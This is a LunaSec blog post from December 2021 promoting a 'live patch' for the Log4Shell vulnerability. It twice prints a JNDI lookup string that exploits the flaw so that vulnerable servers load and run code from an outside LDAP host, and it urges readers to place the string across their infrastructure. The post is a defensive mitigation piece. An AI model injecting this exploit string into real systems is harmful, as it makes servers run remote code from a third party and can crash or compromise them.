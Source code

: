 ```yaml
---
title: "How to Automatically Mitigate Log4Shell with LunaSec Live Patch (CVE-2021-44228 + CVE-2021-45046)"
description: By simply sending a string to your servers, you can temporarily patch the Log4Shell vulnerability.
slug: log4shell-live-patch
date: 2021-12-14
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors:
- name: Free Wortley
title: CEO at LunaSec
url: https://github.com/freeqaz
image_url: https://github.com/freeqaz.png
tags: [zero-day, security, data-security, data-breaches, guides]
- name: Chris Thompson
title: Developer at Lunasec
url: https://github.com/breadchris
image_url: https://github.com/breadchris.png
- name: Forrest Allison
title: Developer at LunaSec
url: https://github.com/factoidforrest
image_url: https://github.com/factoidforrest.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

TL;DR: This string will temporarily fix your systems.

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

Mitigating a vulnerability in a single dependency used in one project is difficult. Code must be written, then tests must
pass, then approved, then deployed, and then monitored. A vulnerability in a logging framework, especially one as prolific as Log4j, is not a
single vulnerability. It is not even just a vulnerability in every system that you own, it is a vulnerability on every
system that you depend on.

Simply, one might think, the "true fix" is to change one version in your list of dependencies to be the latest version. In this
case we would like that number to be [~`2.15.0`~, er... `2.16.0`](...). But we cannot simply restart every server all at once.
What if changing that version causes your tests to not pass? What if you don't have tests to check correctness of the change...

Vendors also use Log4j. If your vendor software is a black box that runs on-prem, the "true fix" is just not possible.
You are left helpless until mitigation steps are given to you. Some vendors have recommended turning off their service
until they have implemented the "true fix" themselves. Being left in the dark by a company you have paid to provide you
a service isn't tolerable.

All the while, attackers are getting more sophisticated with their payloads. They are bypassing WAFs, your first line
of defense. They are discretely embeding themselves into your infrastructure while you attempt to roll out changes to fix
issues.

If you find yourself stuck between a rock and a hard place for fixing this issue at your company, the Log4Shell Live
Patch might provide you a temporary solution.

By placing this string:

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

Anywhere you can in your infrastructure, you will be rolling out a temporary fix for the Log4Shell vulnerability.

:::warn There be dragons
This string will attempt to exploit the Log4Shell vulnerability and apply a patch to your live system. While this
patch has been tested on a number of systems, your system might be different and could possibly crash. You have been warned.
:::

This string will trigger the Log4Shell vulnerability and attempt to [exploit it](https://www.lunasec.io/docs/blog/).
Instead of your server being taken over by an attacker, your server will actually be fixed of the vulnerability.

Since LunaSec is an open source company, we pride ourselves in being transparent in the work that we do. You can find the
full source code of this live patch service [here](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell) in our repo.
If you find this tool helpful, consider giving us a star ;)

We have extensively [written about steps for mitigating Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide)
and we encourage you to refer to these steps as you and your company address this vulnerability. We strongly urge you and
your team to work towards updating your Log4j versions to `2.16.0` as you are able to.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-14-log4j-zero-day-update-on-CVE-2021-45046.mdx).
:::

